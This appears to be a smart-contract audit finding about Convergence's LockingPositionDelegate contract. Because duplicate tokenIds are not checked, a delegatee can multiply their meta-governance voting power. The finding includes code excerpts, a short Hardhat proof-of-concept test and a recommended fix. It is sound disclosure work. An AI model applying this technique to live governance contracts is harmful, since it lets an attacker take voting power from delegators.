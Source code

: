 Sticky Chambray Bobcat

high

# LockingPositionDelegate::manageOwnedAndDelegated unchecked duplicate tokenId allow metaGovernance manipulation

## Summary

A malicious user can multiply his share of meta governance delegation for a tokenId by adding that token multiple times when calling `manageOwnedAndDelegated`

## Vulnerability Detail

Without checks to prevent the addition of duplicate token IDs, a user can artificially inflate their voting power and their metaGovernance delegations. 

A malicious user can add the same tokenId multiple times, and thus multiply his own share of meta governance delegation with regards to that tokenId.

Scenario:

1. Bob delegates a part of metaGovernance to Mallory - he allocates 10% to her and 90% to Alice.
2. Mallory calls `manageOwnedAndDelegated` and adds the same `tokenId` 10 times, each time allocating 10% of the voting power to herself.
3. Mallory now has 100% of the voting power for the `tokenId`, fetched by calling `mgCvgVotingPowerPerAddress`, harming Bob and Alice metaGovernance voting power.

## Impact

The lack of duplicate checks can be exploited by a malicious user to manipulate the metaGovernance system, allowing her to gain illegitimate voting power (up to 100%) on a delegated tokenId, harming the delegator and the other delegations of the same `tokenId`.

## Code Snippet

```solidity
    function manageOwnedAndDelegated(OwnedAndDelegated calldata _ownedAndDelegatedTokens) external {
        ...

❌      for (uint256 i; i < _ownedAndDelegatedTokens.owneds.length;) { //@audit no duplicate check
        ...
        }

❌      for (uint256 i; i < _ownedAndDelegatedTokens.mgDelegateds.length;) { //@audit no duplicate check
        ...
        }

❌      for (uint256 i; i < _ownedAndDelegatedTokens.veDelegateds.length;) { //@audit no duplicate check
        ...
        }
    }

```

```solidity
function mgCvgVotingPowerPerAddress(address _user) public view returns (uint256) {
        uint256 _totalMetaGovernance;
        ...
        /** @dev Sum voting power from delegated (allowed) tokenIds to _user. */
        for (uint256 i; i < tokenIdsDelegateds.length; ) {
            uint256 _tokenId = tokenIdsDelegateds[i];
            (uint256 _toPercentage, , uint256 _toIndex) = _lockingPositionDelegate.getMgDelegateeInfoPerTokenAndAddress(
                _tokenId,
                _user
            );
            /** @dev Check if is really delegated, if not mg voting power for this tokenId is 0. */
            if (_toIndex < 999) {
                uint256 _tokenBalance = balanceOfMgCvg(_tokenId);
                _totalMetaGovernance += (_tokenBalance * _toPercentage) / MAX_PERCENTAGE;
            }

            unchecked {
                ++i;
            }
        }
        ...
❌    return _totalMetaGovernance; //@audit total voting power for the tokenID which will be inflated by adding the same tokenID multiple times
    }
```

https://github.com/sherlock-audit/2023-11-convergence/blob/main/sherlock-cvg/contracts/Locking/LockingPositionDelegate.sol#L330

### PoC

Add in balance-delegation.spec.ts:

```ts
    it("Manage tokenIds for user10 with dupes", async () => {
        let tokenIds = {owneds: [], mgDelegateds: [1, 1], veDelegateds: []};
        await lockingPositionDelegate.connect(user10).manageOwnedAndDelegated(tokenIds);
    });

    it("Checks mgCVG balances of user10 (delegatee)", async () => {
        const tokenBalance = await lockingPositionService.balanceOfMgCvg(1);

        // USER 10
        const delegatedPercentage = 70n;

        //@audit: The voting power is multiplied by 2 due to the duplicate
        const exploit_multiplier = 2n;
        const expectedVotingPower = (exploit_multiplier * tokenBalance * delegatedPercentage) / 100n;
        const votingPower = await lockingPositionService.mgCvgVotingPowerPerAddress(user10);

        // take solidity rounding down into account
        expect(votingPower).to.be.approximately(expectedVotingPower, 1);
    });

```
## Tool used

## Recommendation

Ensuring the array of token IDs is sorted and contains no duplicates. This can be achieved by verifying that each tokenId in the array is strictly greater than the previous one, it ensures uniqueness without additional data structures.